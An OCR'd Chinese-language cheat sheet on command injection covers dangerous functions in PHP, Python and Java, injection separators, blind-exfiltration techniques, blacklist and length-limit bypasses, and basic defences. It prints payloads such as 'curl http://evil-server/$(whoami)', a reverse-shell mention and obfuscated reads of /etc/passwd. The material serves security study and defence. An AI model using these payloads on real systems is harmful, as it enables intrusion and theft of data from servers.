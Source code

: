 # 命令注入

## 简介

命令注入通常因为指Web应用在服务器上拼接系统命令而造成的漏洞。

该类漏洞通常出现在调用外部程序完成一些功能的情景下。比如一些Web 管理界面的配置主机名/IP/掩
码/网关、查看系统信息以及关闭重启等功能，或者一些站点提供如ping、nslookup、提供发送邮件、转换图
片等功能都可能出现该类漏洞。

## 常见危险函数

PHP
- system
- exec
- passthru
- shell_exec
- popen
- proc_open

Python
- system
- popen
- subprocess.call
- spawn

Java
- java.lang.Runtime.getRuntime().exec(command)

## 常见注入方式

- 分号分割
- || && & 分割
- | 管道符
- \r\n %d0%a0 换行
- 反引号解析
- $() 替换

## 无回显技巧

- bash 反弹shell
- DNS 带外数据
- http 带外
  - curl http://evil-server/$(whoami)
  - wget http://evil-server/$(whoami)
- 无带外时利用sleep 或其他逻辑构造布尔条件

## 常见绕过方式

### 空格绕过

- < 符号cat<123
- \t / %09
- ${IFS} 其中{} 用来截断，比如cat$IFS2 会被认为IFS2 是变量名。另外，在后面加个$ 可以起到截
断的作用，一般用$9，因为$9 是当前系统shell 进程的第九个参数的持有者，它始终为空字符串
- $IFS$1

### 黑名单绕过

- a=l;b=s;$a$b
- base64 echo "bHM=" | base64 -d
- /?in/?s => /bin/ls
- 连接符cat /etc/pass'w'd
- 未定义的初始化变量cat$x /etc/passwd

### 长度限制绕过

- ">wget\"
- ">foo.\"
- ">com"
- "ls -t>a"
- "sh a"

上面的方法为通过命令行重定向写入命令，接着通过ls 按时间排序把命令写入文件，最后执行直接在Linux
终端下执行的话, 创建文件需要在重定向符号之前添加命令这里可以使用一些诸如w,[之类的短命令，(使用
ls /usr/bin/? 查看) 如果不添加命令，需要Ctrl+D 才能结束，这样就等于标准输入流的重定向而在php 中,
使用shell_exec 等执行系统命令的函数的时候, 是不存在标准输入流的，所以可以直接创建文件

## 常用符号

### 命令分隔符

- %0a / %0d / \n / \r
- ;
- & / &&

### 通配符

- "* 0到无穷个任意字符"
- "? 一个任意字符"
- "[ ] 一个在括号内的字符，e.g. [abcd]"
- "[ - ] 在编码顺序内的所有字符"
- "[^ ] 一个不在括号内的字符"

## 防御

- 不使用时禁用相应函数
- 尽量不要执行外部的应用程序或命令
- 做输入的格式检查
- 转义命令中的所有shell 元字符
  - shell 元字符包括#&;`,|*?~<>^()[]{}$\